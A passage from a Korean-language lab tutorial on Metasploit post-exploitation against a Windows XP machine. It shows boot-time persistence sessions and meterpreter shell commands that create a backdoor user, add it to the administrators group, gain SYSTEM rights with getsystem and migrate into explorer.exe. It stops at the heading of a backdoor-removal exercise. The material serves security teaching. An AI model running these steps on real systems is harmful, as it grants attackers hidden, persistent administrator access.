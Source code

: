 다음 명령어를 통해 세션 밖으로 나가고 현재 열려있는 세션을 확인할 수 있으며, 원하는 세션으로 접속할 수 있다.

공격 대상인 windows XP를 종료하면 세션들은 어떻게 될까? windows XP를 종료하고 session -l 명령을 이용하여 확인해보자

세션들이 모두 닫힌 것을 발견할 수 있을 것이다.

windows XP를 다시 키고 sessions 을 확인해보자 새로운 세션3이 열렸다 부팅시 자동적으로 persistence가 실행되도록 설정해놓았기 때문이다.



### 실습 2) 백도어 계정 만들기


추가로 백도어 계정을 만든 다음 Administrator 권한을 부여하는 과정을 연습해보자.

Windows XP에 공격을 수행하고 미터프리터 세션을 연 다음, shell을 열어준다.

```
meterpreter> shell
C:\WINDOWS\system32> net user [계정이름] [계정 비밀번호] /add //계정을 추가한다
C:\WINDOWS\system32> net user //현재 계정들의 목록을 확인한다.
```

자신이 새로 생성할 계정 이름과 비밀번호를 설정해주고, 계정들의 목록을 확인한다.

그러면 방금 생성한 계정이 새로 생겨 있는 것을 확인할 수 있을 것이다. 

실제 XP로 가서 계정이 생겼는지 확인해봐도 좋다. 

그러나 여기까지 하면 XP에서 계정을 확인해 보았을 때 Limited Account라고 뜨는 것을 확인할 수 있다. 이를 Administrator Account로 바꿔주자.

```
C:\WINDOWS\system32> net localgroup administrators [계정이름] /add //계정에 관리자권한 부여
```

그러면 다시 한번 계정을 확인해 봤을 때 Limited Account 가 아닌 Administraotr Account로 바뀌어 있다.

※ 만들어진 계정을 삭제하고 싶다면, 다음 커맨드를 이용한다.

```
C:\WINDOWS\system32> net user [계정이름] [계정 비밀번호] /delete
```

이제는 시스템을 종료해주자.

```
C:\WINDOWS\system32> exit //shell을 종료한다.
meterpreter> getsystem //시스템 권한을 얻는다
meterpreter> getuid //시스템 권한인 것을 확인한다.
```

그러면 shell을 종료하고 시스템 권한을 얻은 후 확인해본다.

```
meterpreter> ps
> migrate [explorer.exe의 번호]
> reboot
```

이제 ps커맨드를 이용해 explorer.exe로 migrate한 뒤 reboot할 수 있게 된다.



### 실습 3) Remove Backdoor
